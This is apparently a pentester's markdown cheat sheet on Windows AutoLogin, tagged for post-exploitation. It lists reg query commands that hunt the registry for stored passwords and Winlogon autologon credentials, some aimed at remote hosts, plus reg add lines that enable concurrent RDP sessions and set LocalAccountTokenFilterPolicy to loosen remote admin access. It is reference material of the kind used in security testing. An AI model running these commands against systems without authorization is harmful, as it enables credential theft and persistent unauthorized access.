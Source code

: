 # Windows AutoLogin

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #living-off-the-land #windows

## 01 - Manual

```
C:\> reg query [\\<IP>] HKLM /f password /t REG_SZ /s

C:\> reg query [\\<IP>] HKCU /f password /t REG_SZ /s

C:\> reg query [\\<IP>] "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Windows/Local Privilege Escalation/Credentials/Stored Credentials/AutoLogin/Registry|AutoLogin Registry]]

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

TODO: This is for persistence or idk what kind of mechanism persistence technique that it does so I'll have to put it somewhere else later

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`